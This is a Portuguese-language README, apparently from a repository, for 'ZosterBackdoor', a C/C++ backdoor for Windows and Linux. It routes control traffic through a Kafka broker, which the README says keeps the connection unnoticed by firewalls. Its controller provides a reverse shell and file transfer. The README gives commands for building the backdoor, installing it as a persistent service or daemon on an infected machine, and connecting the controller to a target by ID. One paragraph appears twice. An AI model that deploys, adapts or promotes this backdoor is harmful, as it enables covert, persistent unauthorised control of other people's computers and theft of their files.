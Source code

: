 # ZosterBackdoor

Zoster é uma Backdoor desenvolvida em C/C++ que permite uma conexão estável utilizando do sistema de mensageria Kafka.

### O que é uma Backdoor? <br>
  É um termo utilizado pelos hackers, se refere a um software que mantenha uma conexão a máquina, comumente utilizado após a exploração de alguma vulnerabilidade que permita instalá-la. Essa conexão serve para caso a vulnerabilidade pelo qual o hacker conseguiu acesso ao sistema (porta principal) seja corrigida, permitindo-o de manter uma conexão com a máquina (porta dos fundos). 

### Zoster <br>
  Zoster foi planejado para garantir uma conexão estável entre o controlador e a maquina alvo, utilizando um broker Kafka, que é um serviço intermediário que ira gerenciar as trocas de informação entre o controlador e a máquina que é controlada, garantindo assim maior estabilidade e uma vantagem de não precisar liberar portas em firewall, a conexão passa despercebida pelos firewalls tanto na parte do controlador quanto na máquina infectada pela Backdoor.
<br> <br>
  Zoster foi planejado para garantir uma conexão estável entre o controlador e a maquina alvo, utilizando um broker Kafka, que é um serviço intermediário que ira gerenciar as trocas de informação entre o controlador e a máquina que é controlada, garantindo assim maior estabilidade e uma vantagem de não precisar liberar portas em firewall, a conexão passa despercebida pelos firewalls tanto na parte do controlador quanto na máquina infectada pela Backdoor. <br>
  
  Zoster conta com um controlador que é a ferramenta que e comunica diretamente com as Backdoors.<br> Atualmente foi implementado neste controlador as seguintes funções:
 * Shell reverso, possibilitando executar comandos ou scripts no terminal.
 * Envio de arquivos.
 * Download de arquivos.
 
##### Zoster foi desenvolvido e testado nas plataformas Windows e Linux. 

### Requisitos:  <br>

- [x] Ter um service Broker kafka local ou na internet. 
- [x] cmake && make, para compilar (linux)
- [x] Visual Studio 2016 ou superior, para compilar (windows)

### Como usar:  <br>
#### 1. Instale o Kafka<br>
Para instalar o sistema de mensageria kafka voce pode seguir tutoriais faceis como estes:
[Instalar kafka no Ubutu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-apache-kafka-on-ubuntu-18-04)<br>
Ou simplesmente suba um docker: [Docker facil do kafka](https://github.com/lensesio/fast-data-dev) <br>
##### ex do docker: 
Instale o docker e execute: <br>
>docker run --rm -p 2181:2181 -p 3030:3030 -p 8081-8083:8081-8083 \ -p 9581-9585:9581-9585 -p 9092:9092 -e ADV_HOST=192.168.99.100 \ lensesio/fast-data-dev:latest

#### 2. Escolha sua plataforma e instale:<br>
* **Windows:** <br> 
Instale o visual Studio, recomendo usar a ultima versão. Instale todos os adicionais de c/c++ no momento da instalação. **Porem não instale nenhuma variavel local do cmake ou ninja. Caso esteja essas variaveis locais no windows as remova para não ter conflito com o script de compilação.** <br> clone o projeto https://github.com/rafaelharzer/ZosterBackdoor, então dentro do diretorio ZosterBackdoor abra um terminal e execute o script facil com:
> powershell .\script_facil.ps1

* **Linux:** <br> 
Instale o cmake e o make para compilar, porem ao executar o script facil como root ele automaticamente irá instalar essas ferramentas.
<br> abra um terminal e execute as instruções:
> git clone https://github.com/rafaelharzer/ZosterBackdoor <br>
> cd ZosterBackdoor <br>
> chmod +x script_facil.sh <br>
> ./script_facil.sh <br>

#### para mais informações sobre a compilação acesse o arquivo Ajuda-COMPILAR.txt

### Como Funcona:  <br>
A Backdoor pode ser compilada para linux e windows, funcionando como um serviço no windows e um daemon no linux. <br>
para executar a backdoor no windows basta em um terminal executar ela assando o parametro install ex:
> backdoor.exe install 

No linux basta executar a backdor que ja subira o daemon. ex:
> ./backdoor

Para poder controlar a backdoor existe o controlador, é a ferramenta de comunicação que deve ser compilada de acordo com seu sistema.
Para poder executar o controlador siga o ex:<br>
no linux:
> ./controlador localhost:9092 maquina_01

no windows:
> controlador.exe localhost:9092 maquina_01

O primeiro argumento são as informações para conectar no servidor broker kafka, a porta padrão é 9092. O segundo parametro é o ID da maquina configurado na hora da compilação usando o script facil, esse ID é o que identifica a maquina pelo qual você deseja se conectar. 
